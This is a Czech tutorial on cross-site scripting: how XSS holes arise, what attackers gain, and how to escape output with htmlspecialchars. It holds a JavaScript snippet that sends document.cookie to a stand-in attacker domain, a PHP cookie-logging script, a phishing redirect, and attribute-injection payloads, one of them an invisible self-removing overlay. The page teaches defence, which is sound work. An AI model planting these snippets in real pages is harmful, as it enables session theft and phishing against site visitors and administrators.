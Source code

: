 ```yaml
---
title: "Využití XSS díry"
headline: "Využití XSS chyby"
description: "Jak je možné využít XSS díru na webové stránce a jak XSS „opravit“."
date: "2014-06-12"
last_modification: "2014-06-17"
status: 1
tags: ["zabezpeceni"]
format: "html"
---
```


<p>XSS (Cross-site scripting) je metoda využívající <a href="/bezpecnost">bezpečnostní</a> chyby webu, konkrétně nedostatečné ošetření dat.</p>

<p>Typicky spočívá ve vložení škodlivého JS kódu. Útok bývá často podceňován, přestože přináší <b>obrovská risika</b>.</p>

<ol>
  <li>
    <p><b>Krádež cookie</b> – JavaScript má často přístup k datům identifikujícím přihlášeného uživatele. Obsah cookie je v <code>document.cookie</code>.</p>
       
    <p>Útočník vložením škodlivého kódu <i>pingne</i> skript na vlastním webu s předanou hodnotou cookie. Potom už stačí, aby napadenou stránku <b>navštívil administrátor</b> – jeho cookie se tak pošle útočníkovi. Zákeřnost tohoto útoku spočívá ve skutečnosti, že je velmi obtížné si napadení všimnout. Na venek se web chová normálně.</p>
    <p>Příklad JS kódu, který je potřeba dostat na server.</p>
    
    <pre><code>var ping = new Image();
ping.src = "http://domena-utocnika.cz/?" + 
            encodeURI(document.cookie);</code></pre>
    
    <p>PHP skript pro uložení obsahu:</p>
    
    <pre><code>file_put_contents(
	"cookies.txt", 
	$_SERVER["QUERY_STRING"] . "\n", 
	FILE_APPEND
);</code></pre>
    
    <p>Přístupu k obsahu cookie z JS <b>lze zabránit</b> nastavením jako <i>httponly</i> v PHP funkci <a href="http://cz2.php.net/manual/en/function.setcookie.php"><code>setcookie</code></a> nebo <a href="http://cz2.php.net/manual/en/function.session-set-cookie-params.php"><code>session_set_cookie_params</code></a>.</p>
  </li>
  
  <li>
    <p><b>Přesměrování na vlastní web</b> – v případě, že cookie k přihlášení nestačí, nebo je cílem získat hesla, dá se použít technika <i>phishingu</i>. Přesměrovat návštěvníka webu JavaScriptem na vlastní stránku s <b>přihlašovacím formulářem</b> zkopírovaným z originální stránky.</p>
    
    <pre><code>window.location = "http://domena-utocnika.cz";</code></pre>
  </li>
  
  <li>
    <p><b>Modifikace stránky</b> – jelikož JS má takřka neomezenou moc v manipulaci s webovou stránkou, může útočník využitím XSS díry za účelem výdělku přidat na děravou stránku <b>reklamu</b>, <b>affiliate odkazy</b> a podobně.</p>
  </li>
  
  <li>
    <p><b>Poškození dobrého jména</b> – vložením spojení na nějaký podezřelý web může stránce přiřknout ve vyhledávačích označení jako malware.</p>
  </li>
</ol>

<h2 id="priklad">Příklad útoku</h2>

<h3 id="html-znacky">Interpretace HTML značek</h3>

<p>V případě, že se obsah, který může ovlivnit návštěvník, vypisuje včetně HTML značek, není problém přidat kus škodlivého JavaScriptu.</p>

<pre><code>&lt;script>
alert("XSS");
&lt;/script></code></pre>

<p>Potřebujeme-li umožnit vkládat HTML značky, nezbývá než použít nějaký nástroj pro <a href="/vycisteni-kodu">pročištění kódu</a>, kde jde přímo vyjmenovat povolené HTML značky a atributy.</p>

<p>Není-li potřeba HTML značky interpretovat, postačí PHP funkce <code>htmlspecialchars</code>.</p>

<h3 id="html-atributy">Interpretace v HTML atributech</h3>

<p>Méně známý problém je obsah v <b>HTML atributech</b>. V PHP existuje funkce <code>strip_tags</code>, která slouží k odstranění všeho, co vypadá jako HTML značka (tedy i třeba smajlíka <code>&lt;3</code> nebo výrazu <code>a&lt;b</code>, což bývá nežádoucí).</p>

<p>Zásadní problém této funkce tkví v neodstraňování atributů. Použitím <code>strip_tags</code> a povolení byť jen jediné HTML značky <b>vznikne XSS díra</b>.</p>

<p>Škodlivý JavaScript je totiž možné vkládat i do různých <code>onNěco</code> událostí:</p>

<pre><code>&lt;b onmousemove='alert("XSS")'>&lt;b></code></pre>

<p>Funkce <code>strip_tags</code> nastavená na povolení tučného písma (značka <code>&lt;b></code>) tento kód nechá beze změn.</p>

<p>Jelikož <code>strip_tags</code> ponechá i <i>inline</i> styly, může útočník výše uvedený HTML kód naposicovat přes celou stránku s průhledným pozadím. A po provedení škodící akce element zrušit, aby se web nechoval podezřele.</p>

<pre><code>&lt;span 
onmousemove="alert('XSS'); this.parentNode.removeChild(this)" 
style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: transparent">
&lt;/span></code></pre>

<p><a href="https://kod.djpw.cz/gxdb">Živá ukázka</a></p>

<p>Při vypisování obsahu <b>uvnitř HTML atributů</b> je tedy nutné myslet na to, že když v kódu:</p>

<pre><code>&lt;h1 title='<b>%vypis%</b>'>Nadpis&lt;/h1></code></pre>

<p>Nahradíme <code>%vypis%</code> řetězcem <code>' onmousemove='alert("XSS")</code>, vznikne:</p>

<pre><code>&lt;h1 title='' onmousemove='alert("XSS")'>Nadpis&lt;/h1></code></pre>

<p>Což je funkční a <b>nebezpečný výsledek</b>.</p>

<h2 id="obrana">Obrana před XSS</h2>

<p>Důsledná obrana proti XSS spočívá v ošetřování všech dat, která se vypisují na stránce.</p>

<p>V PHP je k tomu možné použít funkci <code>htmlspecialchars</code>:</p>

<pre><code>$text = htmlspecialchars($text, ENT_QUOTES);</code></pre>

<p>Uvedení <code>ENT_QUOTES</code> zajistí právě ochranu v HTML atributech – tj. nenechá atribut uzavřít jednoduchou nebo dvojitou uvozovkou, což zabrání zapsání škodlivých <code>onNěco</code> atributů.</p>

<p>Výše uvedené použití funkce <code>htmlspecialchars</code> nahradí entitami všechny řídicí HTML znaky: <code>&lt;</code>, <code>&gt;</code>, <code>&amp;</code>, <code>&quot;</code> a <code>'</code>.</p>

<p>Ošetření výstupu je nutné použít i u všelijakých <b>administrátorských akcí</b>. Mohlo by se stát, že by útočník administrátora odkázal na URL, kde by byl kus <b>škodlivého JS kódu</b>, který by se bez ošetření po prokliknutí provedl.</p>